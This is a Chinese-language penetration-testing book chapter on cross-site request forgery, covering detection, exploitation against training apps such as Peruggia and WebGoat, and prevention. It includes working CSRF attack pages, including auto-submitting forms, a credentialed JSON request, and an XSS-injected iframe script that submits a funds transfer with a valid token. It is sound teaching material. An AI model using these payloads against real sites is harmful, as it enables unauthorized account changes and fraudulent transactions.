





# 第七章：跨站请求伪造（CSRF），识别和利用

**跨站请求伪造**（**CSRF**）经常被错误地视为与 XSS 类似的漏洞。XSS 利用用户对特定站点的信任，使用户相信网站呈现的任何信息。另一方面，CSRF 利用网站对用户浏览器的信任，使网站在未验证用户是否要执行特定操作的情况下执行来自经过身份验证的会话的任何请求。

在 CSRF 攻击中，攻击者使经过身份验证的用户在其经过身份验证的 Web 应用程序中执行不需要的操作。这是通过用户访问的外部站点触发这些操作来实现的。

如果未实施足够的防御措施，CSRF 可以利用需要在经过身份验证的会话中进行的每个 Web 应用程序功能。以下是攻击者可以通过 CSRF 攻击执行的一些操作的示例：

+   在 Web 应用程序中更改用户详细信息，例如电子邮件地址和出生日期

+   进行欺诈性的银行交易

+   在网站上进行欺诈性的点赞和点踩

+   在电子商务网站上添加商品到购物车或在用户不知情的情况下购买商品

+   CSRF 攻击的先决条件

由于 CSRF 利用了经过身份验证的会话，受害者必须在目标 Web 应用程序中拥有活动的经过身份验证的会话。该应用程序还应允许在会话中进行交易而无需重新进行身份验证。

CSRF 是一种盲目攻击，目标 Web 应用程序的响应不会发送给攻击者，而是发送给受害者。攻击者必须了解触发所需操作的网站参数。例如，如果您想在网站上更改受害者的注册电子邮件地址，作为攻击者，您需要确定需要操纵以进行此更改的确切参数。因此，攻击者需要对 Web 应用程序有适当的理解，这可以通过直接与其交互来实现。

此外，攻击者需要找到一种方法来诱使用户点击预先构建的 URL，或者如果目标应用程序使用`POST`方法，则访问受攻击者控制的网站。这可以通过社交工程攻击来实现。

# 测试 CSRF 漏洞

CSRF 漏洞的描述明确表明它是一种业务逻辑缺陷。有经验的开发人员会创建 Web 应用程序，始终在执行关键任务（如更改密码、更新个人详细信息或在金融应用程序（如在线银行账户）中做出关键决策时）包括用户确认屏幕。测试业务逻辑缺陷不是自动化 Web 应用程序扫描器的工作，因为它们使用预定义规则。例如，大多数自动化扫描器会测试以下项目以确认 URL 中是否存在 CSRF 漏洞：

+   检查请求和响应中常见的反 CSRF 令牌名称

+   尝试确定应用程序是否通过提供虚假引用者来检查引用者字段

+   创建变异体以检查应用程序是否正确验证令牌值

+   检查查询字符串中的令牌和可编辑参数

大多数自动化应用程序扫描器使用的先前方法容易产生误报和漏报。应用程序将使用完全不同的缓解技术来防御 CSRF 攻击，从而使这些扫描工具无效。

分析应用程序中的 CSRF 漏洞的最佳方法是首先完全了解 Web 应用程序的功能。启动代理，如 Burp 或 ZAP，并捕获流量以分析请求和响应。然后，您可以创建一个 HTML 页面，复制从代理中识别出的易受攻击的代码。测试 CSRF 漏洞的最佳方法是手动进行。

如果应用程序在通过经过身份验证的用户会话执行服务器端更改时没有包含任何特殊的头部或表单参数，那么它很可能容易受到 CSRF 漏洞的攻击。例如，下面的屏幕截图显示了对**Peruggia**中的图片添加评论的请求，该应用程序是**OWASP BWA**虚拟机中的一个易受攻击的应用程序。您会注意到在服务器端没有特殊的头部可以识别一个请求与另一个请求的区别。此外，`GET`和`POST`参数用于标识要执行的操作、受影响的图像以及评论的内容：



有时，应用程序使用验证令牌，但其实现是不安全的。下面的屏幕截图显示了使用安全级别 1 的 Mutillidae II | OWASP 2013 | A8 - 跨站请求伪造（CSRF）| 注册用户的请求。您可以看到请求中有一个`csrf_token`参数用于注册新用户。然而，它只有四位数，并且似乎很容易预测。实际上，在这种特殊情况下，令牌的值始终相同：`7777`：



其他实现 CSRF 防护令牌的错误示例包括：

+   将令牌作为 cookie 包含：浏览器会自动在请求中发送与访问的站点对应的 cookie，这将使本来安全的令牌实现变得无效。

+   使用用户或客户端信息作为令牌：IP 地址、用户名或个人信息等信息可以用作令牌。这样做会不必要地暴露用户信息，并且可以通过社会工程学或有针对性的攻击中的开源情报（OSINT）收集此类信息。

+   **允许重复使用令牌**：即使只允许短时间内重复使用令牌，仍然可以进行攻击。

+   仅客户端检查：如果应用程序仅使用客户端代码验证用户是否实际执行某些操作，攻击者仍然可以使用 JavaScript 绕过这些检查，无论是通过 XSS 利用还是在攻击页面中，或者仅仅是重放最终请求。

# 利用 CSRF 漏洞

通过`GET`请求（参数在 URL 中发送）利用此漏洞就像说服用户浏览到执行所需操作的恶意链接一样简单。另一方面，要利用`POST`请求中的 CSRF 漏洞，需要创建一个包含表单或脚本的 HTML 页面来提交请求。

# 利用 POST 请求中的 CSRF 漏洞

在本节中，我们将重点介绍利用`POST`请求的漏洞。我们将使用 Peruggia 的用户创建功能进行练习。第一步是了解要复制的请求的工作原理；如果您以管理员身份登录 Peruggia 并在使用 Burp Suite 捕获流量时创建一个新用户，您会发现请求如下所示：



请求只包括`newuser`（用户名）和`newuserpass`（密码）参数。因此，一旦确定了进行更改的请求和参数，我们需要执行以下操作：

1.  创建一个生成带有这些参数和要使用的信息的请求的 HTML 页面。

1.  说服用户浏览到您的页面并提交请求。后者可能是不必要的，因为您可以让页面自动提交表单。

需要一个复杂的 HTML 页面来实现我们的目标。在这个例子中，易受攻击的服务器是`10.7.7.5`：

```
<HTML> 
  <body> 
    <form method="POST" action="http://10.7.7.5/peruggia/index.php?action=account&adduser=1"> 
      <input type="text" value="CSRFuser" name="newuser"> 
      <input type="text" value="password123!" name="newuserpass"> 
      <input type="submit" value="Submit"> 
    </form> 
  </body> 
</HTML> 
```

生成的页面将如下屏幕截图所示。底部部分是 Firefox 开发者工具面板，可以使用*F12*键激活：



在常规渗透测试中，这可能作为**概念验证**（**PoC**）有效，并足以证明存在漏洞。更复杂的版本可以包含欺骗性内容和脚本代码，以在页面加载后自动提交请求：

```
<HTML> 
  <BODY> 
    ... 
    <!-- include attractive HTML content here --> 
    ... 
    <FORM id="csrf" method="POST" action="http://10.7.7.5/peruggia/index.php?action=account&adduser=1"> 
      <input type="text" value="CSRFuser" name="newuser"> 
      <input type="text" value="password123!" name="newuserpass"> 
      <input type="submit" value="Submit"> 
    </FORM> 
    <SCRIPT>document.getElementById("csrf").submit();</SCRIPT> 
  </BODY> 
</HTML> 
```

要测试此 PoC 页面，请打开 Peruggia 并使用`admin`用户（密码：`admin`）启动会话，并在同一浏览器的不同标签页或窗口中加载攻击页面：


接下来，点击提交按钮或者如果使用脚本版本，则只需加载页面，服务器将处理该请求，就好像它是由经过身份验证的用户发送的一样。使用浏览器的开发者工具，您可以检查请求是否已发送到目标服务器并得到正确处理。



# Web 服务上的 CSRF

如今的 Web 应用程序通常使用对 Web 服务的调用来执行任务，而不是使用普通的 HTML 表单。这些请求通过 JavaScript 使用 XMLHttpRequest 对象完成，该对象允许开发人员创建 HTTP 请求并自定义方法、头部和主体等参数。

Web 服务通常接收与标准 HTML 表单不同格式的请求（例如，`parameter1=value1&parameter2=value2`），例如 JSON 和 XML。以下示例代码片段以 JSON 格式发送地址更新请求：

```
var xhr = new XMLHttpRequest(); 
xhr.open('POST', '/UpdateAddress'); 
xhr.setRequestHeader('Content-Type', 'application/json'); 
xhr.onreadystatechange = function () { 
  if (xhr.readyState == 4 && xhr.status == 200) { 
    alert(xhr.responseText); 
  } 
} 
xhr.send(JSON.stringify(addressData)); 
```

此请求的主体（即`POST`数据）可能如下所示：

```
{"street_1":"First street","street_2":"apartment 2","zip":54123,"city":"Sin City"} 
```

如果您尝试将此精确字符串作为 HTML 表单中的`POST`参数发送，服务器将出现错误，并且您的请求将无法处理。例如，提交以下表单将无法正确处理参数：

```
<HTML> 
  <BODY> 
    <FORM method="POST" action="http://vulnerable.server/UpdateAddress"> 
      <INPUT type="text" name='{
                           "street_1":"First street",
                           "street_2":"apartment 2",
                           "zip":54123,"city":"Sin City"}' value=""> 
      <INPUT type="submit" value="Submit"> 
    </FORM> 
  </BODY> 
</HTML> 
```

有几种方法可以利用 CSRF 对使用 JSON 或 XML 格式的请求进行攻击。

通常，Web 服务允许以不同格式传递参数，包括 HTML 表单格式；因此，您的第一个选择是将请求的`Content-Type`头更改为`application/x-www-form-urlencoded`。只需通过 HTML 表单发送请求即可实现此目的。但是，您不需要尝试发送 JSON 字符串；相反，您可以创建一个包含字符串中每个参数的输入的表单。在我们的示例中，HTML 代码的简单版本如下所示：

```
<HTML> 
  <BODY> 
    <FORM method="POST" action="http://vulnerable.server/UpdateAddress"> 
      <INPUT type="text" name="street_1" value="First street"> 
      <INPUT type="text" name="street_2" value="apartment 2"> 
      <INPUT type="text" name="zip" value="54123"> 
      <INPUT type="text" name="city" value="Sin City"> 
      <INPUT type="submit" name="submit" value="Submit form"> 
    </FORM> 
  </BODY> 
</HTML> 
```

如果请求的`Content-Type`头不被允许，而 Web 服务只接受 JSON 或 XML 格式，则需要复制（或创建）生成请求的脚本代码，按照相同的示例进行操作：

```
<HTML> 
  <BODY> 
    <SCRIPT> 
      function send_request() 
      { 
        var xhr = new XMLHttpRequest(); 
        xhr.open('POST', 'http://vulnerable.server/UpdateAddress'); 
        xhr.setRequestHeader('Content-Type', 'application/json'); 
        xhr.withCredentials=true; 
        xhr.send('{"street_1":"First street",
                  "street_2":"apartment 2","zip":54123,
                  "city":"Sin City"}'); 
      } 
    </SCRIPT> 
    <INPUT type="button" onclick="send_request()" value="Submit">  
  </BODY> 
</HTML> 
```

请注意使用了`xhr.withCredentials=true;`。这允许 JavaScript 获取浏览器中存储的目标域的 cookie，并将其与请求一起发送。此外，省略了状态更改事件处理程序，因为您不需要捕获响应。

这种最后的选择有几个缺点，因为当前浏览器和服务器在跨站操作方面对 JavaScript 的行为有限制。例如，根据服务器的**跨域资源共享**（**CORS**）配置，应用程序可能需要在发送跨站请求之前执行预检查。这意味着浏览器将自动发送一个`OPTIONS`请求，以检查该服务器允许的方法。如果请求的方法不允许进行跨域请求，浏览器将不会发送它。另一个保护的例子是浏览器中的**同源策略**，默认情况下，它使浏览器保护服务器的资源免受其他网站的脚本代码访问。

# 使用跨站脚本（XSS）绕过 CSRF 保护

当应用程序容易受到**跨站脚本**（**XSS**）攻击时，攻击者可以利用该漏洞（通过脚本代码）读取包含唯一令牌的变量，并将其发送到外部站点并在新标签中打开恶意页面，或者使用相同的脚本代码发送请求，同时绕过 CORS 和同源策略，因为请求将由同一站点通过本地脚本进行。

让我们看看使用脚本代码使应用程序执行自身请求的情况。您将使用 WebGoat 的*CSRF Token By-Pass*（跨站脚本（XSS）| CSRF Token By-Pass）练习。根据说明，您需要滥用新闻组中的*新帖子*功能允许注入 HTML 和 JavaScript 代码，以执行未经授权的转账请求。

以下屏幕截图显示了转账页面，您可以通过将`&transferFunds=main`参数添加到课程的 URL 中来加载它：

！[](img/00196.jpeg)

如果您检查表单的源代码，您会看到它有一个名为`CSRFToken`的隐藏字段，每次加载页面时都会更改。这似乎是完全随机的：

！[](img/00197.jpeg)

为了在这个表单中执行 CSRF 攻击，您需要利用评论表单中的 XSS 漏洞，使用 JavaScript 将转账表单加载到一个`iframe`标签中。这将设置值为 transfer 并自动提交表单。要做到这一点，请使用以下代码：

```
<script language="javascript"> 
  function frame_loaded(iframe) 
  { 
    var form =iframe.contentDocument.getElementsByTagName('Form')[1]; 
    form.transferFunds.value="54321"; 
    //form.submit(); 
  } 
</script> 

<iframe id="myframe" name="myframe" onload="frame_loaded(this)" 
  src="img/attack?Screen=2&menu=900&transferFunds=main"> 
</iframe> 
```

因此，当 iframe 中包含的页面完全加载完成时，它将调用`frame_loaded`函数，该函数将`transferFunds`字段的值设置为`54321`（要转移的金额）并提交请求。请注意，`form.submit();`行被注释掉了。这仅用于演示目的，以防止自动提交。

现在浏览到易受攻击的页面：

```
http://10.7.7.5/WebGoat/attack?Screen=2&menu=900
```

为您的帖子设置一个标题，在消息字段中编写或粘贴您的代码，然后提交它。

！[](img/00198.jpeg)

完成后，您将在页面底部看到您的消息标题，就在提交按钮下方。如果您像受害者一样点击它，您可以看到它如何加载在代码中设置的要转移的金额：

！[](img/00199.jpeg)

要测试自动提交，请发布一条新消息，删除`form.submit();`行上的注释。打开消息的结果将类似于以下屏幕截图：

！[](img/00200.jpeg)

下一个屏幕截图来自 Burp Suite 的代理历史记录，显示了浏览器在前面的示例中如何发出请求。首先显示的是加载带有注入代码的消息的请求，在我们的例子中是消息 66（参数`Num=66`）。接下来，恶意消息加载了包含资金转移页面的 iframe（参数`transferFunds=main`）。最后，根据代码，当此页面完成加载脚本代码时，它填写要转移的金额并使用有效的 CSRF 令牌提交请求：

！[](img/00201.jpeg)

# 预防 CSRF 攻击

预防 CSRF 攻击的关键是确保经过身份验证的用户是请求操作的人。由于浏览器和 Web 应用程序的工作方式，最好的选择是使用令牌来验证操作，或者在可能的情况下使用验证码控件。

当易受攻击的参数通过`GET`方法传递时，执行 CSRF 攻击更容易。因此，首先避免使用它，并在可能的情况下使用`POST`方法。这并不能完全消除攻击，但可以增加攻击者的难度。

由于攻击者将尝试破解令牌生成或验证系统，因此安全地生成它们非常重要；也就是说，攻击者无法猜测它们。您还必须使它们对每个用户和每个操作都是唯一的，因为重用它们会使它们失去作用。这些令牌通常包含在每个请求的标头字段中，或者包含在 HTML 表单的隐藏输入中。避免将它们包含在 cookie 中，因为它们会随着每个请求在每个域的基础上由浏览器自动发送。

CAPTCHA 控件和重新认证在某些情况下对用户来说是侵入性和烦人的，但如果操作的重要性值得，他们可能愿意接受它们，以换取额外的安全级别。

此外，应该在服务器上配置 CORS 策略，因为它们可以防止通过 Web 浏览器的脚本代码进行的一些攻击。如果加载在该窗口中的 URL 不属于同一源（例如主机、端口或协议），CORS 策略将阻止在不同标签或浏览器窗口中运行的 JavaScript 访问数据/资源。

有关防止 CSRF 的更多信息，请访问[`www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet`](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet)。

# 总结

在本章中，您了解了 CSRF 以及它如何滥用服务器和 Web 浏览器之间的信任关系。您了解了如何检测可能存在漏洞的应用程序，审查了一种利用过程，并通过一个示例进行了实践，分析了它在 Web 服务中的工作原理。您还了解了一种绕过令牌保护、CORS 和同源策略的方法，结合 XSS 漏洞使用。

与之前的章节一样，本章的最后一节是关于防御的。我们审查了在您自己的应用程序或客户的应用程序中预防或减轻 CSRF 漏洞的推荐方法。

下一章将简要介绍密码学，重点介绍渗透测试人员需要了解的基础知识，例如区分加密、哈希和编码，识别弱密码实现并利用常见漏洞。
